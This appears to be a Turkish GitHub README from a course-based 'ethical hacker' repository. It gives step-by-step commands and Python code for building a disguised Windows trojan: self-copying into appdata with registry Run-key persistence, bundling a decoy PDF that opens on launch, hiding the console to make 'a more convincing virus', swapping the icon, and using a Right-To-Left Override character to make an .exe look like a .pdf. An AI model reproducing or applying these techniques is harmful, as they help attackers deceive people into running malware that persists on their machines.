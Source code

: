 # ethical-hacker
Bu projede ,başlangıçta, Atıl Samancıoğlu'nun "Python: Sıfırdan İleri Seviyeye - Etik Hacker Örnekleriyle" kursunu takip ederek yadığım kodlar vardır. Bunları kendim geliştireceğim ve yeni scriptler ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
`pip install pyinstaller`

pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).
`...\pyinstaller.exe PythonFile.py --onefile`

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"`
Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;
```
...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...
```

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz
`...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."`	(;. ek olarak koymamız gerekiyor)
Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.
```
def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()
```
Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;
`degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)`

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
`apt-get install gnome-characters`
Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.
